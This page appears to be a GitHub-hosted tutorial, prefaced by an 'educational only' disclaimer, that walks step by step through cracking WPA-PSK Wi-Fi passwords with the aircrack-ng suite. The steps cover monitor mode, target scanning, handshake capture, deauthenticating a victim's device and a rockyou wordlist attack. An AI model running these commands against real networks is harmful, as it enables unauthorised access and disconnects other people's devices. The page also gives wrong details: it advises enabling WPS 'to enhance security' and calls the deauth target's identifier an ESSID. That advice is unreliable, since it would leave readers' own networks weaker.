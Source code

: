 ```yaml
---
title: WPA-PSK Hacking Guide
layout: default
nav_order: 5
---
```


{: .warning-title }
Although these networks are susceptible to hacking, it is crucial to emphasize that this guide is **strictly for educational purposes**. Engaging in these activities on networks without proper authorization is **illegal**. This is for educational purposes only. Having addressed this disclaimer, let's explore the underlying mechanisms, the practical execution, and measures to safeguard yourself against such vulnerabilities.

# **WPA-PSK HACKING GUIDE**

When you enable Wi-Fi in public places, you'll encounter numerous networks that likely utilize `WPA-PSK` **(Wi-Fi Protected Access Pre-Shared Key)** encryption, which is commonly used in wireless networks to secure data transmission.

While it offers a level of security, there are **vulnerabilities** to consider. This guide will explore one of the most common methods of hacking WPA-PSK networks for educational purposes only.
 

## **Introduction**

When you connect to a network from a wireless device, a `handshake` is sent from the device to the `router`. This `handshake` contains the `encrypted password`.

While it's not possible to reverse the `encrypted password`, you can use a technique called a `word list attack`. A word list is a huge text file containing **thousands of passwords**. By comparing the encrypted `handshake` password with the passwords in the word list, you can determine the real password.

## **Requirements**

- `Linux` distro distribution;
- PC with a network card that supports `monitor mode`;
- Install the package `Aircrack-ng` with the command `sudo apt install aircrack-ng`;

## **Procedure**

### **Determine the Network Interface**

<div class="code-example" markdown="1">
Identify the wireless network interfaces, which usually start with w (e.g., `wlp3s0`).
<br>This information will be needed later.
</div>
```bash
ip a
```

{: .important-title }
The "ip a" command in Linux displays network interface information, including **IP addresses**, **MAC addresses**, and **related configurations**. It is used for troubleshooting and network configuration purposes.

### **Enable Monitor Mode**

<div class="code-example" markdown="1">
Use the `airmon-ng` tool to switch your network card to monitor mode.
<br>It will break your internet connection temporarily.
</div>
```bash
airmon-ng start <wireless interface>
```

### **Verify Monitor Mode**

<div class="code-example" markdown="1">
Now, the wireless interface should be displayed as `<interface>mon` (e.g., `wlp3s0mon`).
<br>Run the command and It should appear `Mode: Monitor`.
</div>
```bash
iwconfig
```

{: .important-title }
If the wireless interface doesn't appear, it means your network card **doesn't support monitor mode**, and you'll need the external network card mentioned earlier.

### **Scan for Networks**

<div class="code-example" markdown="1">
Use `airodump-ng` to view the networks around you.
<br>This command will display a list of nearby networks along with their `BSSIDs` **(Network MAC Addresses)** and `channels`.
</div>
```bash
airodump-ng <wireless interface>mon
```

### **Target Network**

Identify and copy/save the `BSSID` and `channel` of the network you wish to attack.

### **Capture the Handshake**

<div class="code-example" markdown="1">
This command will show all the devices currently connected to that network and the amount of `packets` being sent to each device.
<br>For example, watching a video will increase the number of packets sent to the device by a lot.
<br>Type this command in a new terminal window:
</div>
```bash
airodump-ng -d(--bssid) <BSSID> -w(--write) <filename> -c(--channel) <channel>  <wireless interface>mon
```

- `<BSSID>` - target network's BSSID;
- `<channel>` - target network's channel;
- `<filename>` - the desired name for the captured handshake file;
- `<wireless interface>mon` - the name of your wireless interface in monitor mode;

### **Deauthentication Attack**

<div class="code-example" markdown="1">
Now we need to to send `de-authentication packets` to the victim's device, forcing it to disconnect and reconnect to the network, so we can capture the `handshake`.
<br>Leave the previous terminal open (running) and use this command in another terminal:
</div>
```bash
aireplay-ng -0 10 -a <BSSID> -c <client ESSID> <wireless interface>mon
```

- `-0 10` - number of de-authentication packets to send;
- `-a <BSSID>` - target network's BSSID;
- `-c <client ESSID>` - ESSID (name) of the device you want to de-authenticate (e.g., the victim's device);
- `<wireless interface>mon` - the name of your wireless interface in monitor mode;

### **Capture the Handshake**

<div class="code-example" markdown="1">
Observe the terminal running `airodump-ng` capture the `handshake` and wait for the device to reconnect.
<br>Once the handshake is captured, you can see a message saying `WPA handshake: <BSSID>`.
<br>You can stop `airodump-ng` by pressing `Ctrl+C`.
<br>The captured handshake will be saved in the specified filename.
</div>

### **Word List Attack**
<div class="code-example" markdown="1">
Kali Linux comes with pre-installed word lists located in the directory `/usr/share/wordlists`.
<br>If you are not on Kali, you can download a word list from [here](https://www.kali.org/tools/wordlists).
<br>Now let's attempt to match the captured handshake with passwords from the word list.
</div>
```bash
aircrack-ng -w <wordlist> <filename>
```

- `<wordlist>` - path to the desired word list file (e.g. **/usr/share/wordlists/rockyou.txt**);
- `<filename>` - name of the captured **handshake** file;

### **Cracked!**
<div class="code-example" markdown="1">
Congratulations! If the password is found in the word list, it will be displayed.
<br>After performing these steps, your internet connection may still be interrupted.
<br>To fix this, you can either restart your computer or execute the command:
</div>
```bash
airmon-ng stop <monitor interface>
systemctl restart network*
```

## Protecting Yourself
While you cannot prevent the authentication process, you can protect against word list attacks by choosing a long and random password that is unlikely to be found in any word list, like passphrases. Additionally, you can enable `MAC address filtering` and `WPS` **(Wi-Fi Protected Setup)** to enhance security.

## Conclusion
We explored the process of WPA-PSK hacking. It is essential to respect **privacy** and **legality** when using these techniques. We learned about capturing `handshakes`, performing `de-authentication attacks`, and cracking passwords using `word lists`. Remember to always use this knowledge responsibly and protect yourself by setting strong passwords for your Wi-Fi networks.

If you found this guide helpful and thank you for reading!